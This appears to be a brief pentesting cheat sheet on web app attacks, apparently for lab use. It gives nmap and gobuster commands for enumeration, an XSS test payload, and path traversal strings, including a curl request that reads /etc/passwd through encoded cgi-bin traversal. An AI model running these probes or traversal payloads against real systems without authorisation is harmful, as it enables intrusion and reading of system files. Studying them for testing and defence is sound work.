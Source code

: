 # Web App Attacks
## Finding Web Servers
### Enumerate Web Servers
```bash
nmap -p80 --script=http-enum -sV 10.10.10.10
```

## Directory Busting
### GoBuster
```bash
gobuster dir -u 10.10.10.10 -w /usr/share/wordlists/dirb/common.txt
```

## XSS
### Test for XXS
```javascript
(<script>alert(42)</script>)
```

## Directory Traversal
```bash
../../../../../etc/passwd
```
### Character Encoding
```bash
curl http://10.10.10.10/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```